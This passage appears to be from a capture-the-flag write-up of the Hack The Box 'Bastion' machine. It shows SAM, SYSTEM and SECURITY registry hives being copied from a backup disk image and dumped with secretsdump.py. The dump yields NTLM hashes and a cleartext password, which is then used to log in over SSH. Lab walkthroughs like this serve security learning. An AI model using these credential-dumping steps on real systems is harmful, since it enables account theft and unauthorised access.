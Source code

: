 `kali@starscorp1o:/mnt$ sudo cp vhd/Windows/System32/config/SAM .<br></br>kali@starscorp1o:/mnt$ ls<br></br>ls: cannot access 'vhd': Permission denied<br></br>note.txt SAM SDT65CB.tmp vhd WindowsImageBackup<br></br>kali@starscorp1o:/mnt$ sudo cp vhd/Windows/System32/config/SYSTEM .<br></br>kali@starscorp1o:/mnt$ sudo cp vhd/Windows/System32/config/SECURITY .`

Now using secretsdump.py python script we could dump the hashes:

ka`li@starscorp1o:/mnt$ secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL<br></br>Impacket v0.9.22.dev1+20200629.145357.5d4ad6cc - Copyright 2020 SecureAuth Corporation`

`[<em>] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f [</em>] Dumping local SAM hashes (uid:rid:lmhash:nthash)<br></br>Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::<br></br>Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::<br></br>L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::<br></br>[<em>] Dumping cached domain logon information (domain/username:hash) [</em>] Dumping LSA Secrets<br></br>[<em>] DefaultPassword (Unknown User):bureaulampje [</em>] DPAPI_SYSTEM<br></br>dpapi_machinekey:0x32764bdcb45f472159af59f1dc287fd1920016a6<br></br>dpapi_userkey:0xd2e02883757da99914e3138496705b223e9d03dd`  
`[*] Cleaning up…`

![](http://vedanttare.com/wp-content/uploads/2022/04/secretsdump.png)

Now we had to crack the hashes, we did that using crackstation and got the password for a user:

![](http://vedanttare.com/wp-content/uploads/2022/04/cracked-hash.png)

`L4mpje:bureaulampje`

Using these creds we were able to successfully login using SSH:

`kali@starscorp1o:~/htb/boxes/bastion$ ssh L4mpje@10.10.10.134<br></br>The authenticity of host '10.10.10.134 (10.10.10.134)' can't be established.<br></br>ECDSA key fingerprint is SHA256:ILc1g9UC/7j/5b+vXeQ7TIaXLFddAbttU86ZeiM/bNY.<br></br>Are you sure you want to continue connecting (yes/no/[fingerprint])? yes<br></br>Warning: Permanently added '10.10.10.134' (ECDSA) to the list of known hosts.<br></br>L4mpje@10.10.10.134's password:<br></br>Permission denied, please try again.<br></br>L4mpje@10.10.10.134's password:<br></br>Microsoft Windows [Version 10.0.14393]<br></br>(c) 2016 Microsoft Corporation. All rights reserved.`

`l4mpje@BASTION C:\Users\L4mpje>id<br></br>'id' is not recognized as an internal or external command,<br></br>operable program or batch file.`

`l4mpje@BASTION C:\Users\L4mpje>whoami<br></br>bastion\l4mpje`

`l4mpje@BASTION C:\Users\L4mpje>dir<br></br>Volume in drive C has no label.<br></br>Volume Serial Number is 0CB3-C487`

`Directory of C:\Users\L4mpje`

`22-02-2019 14:50 .<br></br>22-02-2019 14:50 ..<br></br>22-02-2019 16:26 Contacts<br></br>22-02-2019 16:27 Desktop<br></br>22-02-2019 16:26 Documents<br></br>22-02-2019 16:26 Downloads<br></br>22-02-2019 16:26 Favorites<br></br>22-02-2019 16:26 Links<br></br>22-02-2019 16:26 Music<br></br>22-02-2019 16:26 Pictures<br></br>22-02-2019 16:26 Saved Games<br></br>22-02-2019 16:26 Searches<br></br>22-02-2019 16:26 Videos<br></br>0 File(s) 0 bytes<br></br>13 Dir(s) 11.291.164.672 bytes free`

## Privilege Escalation
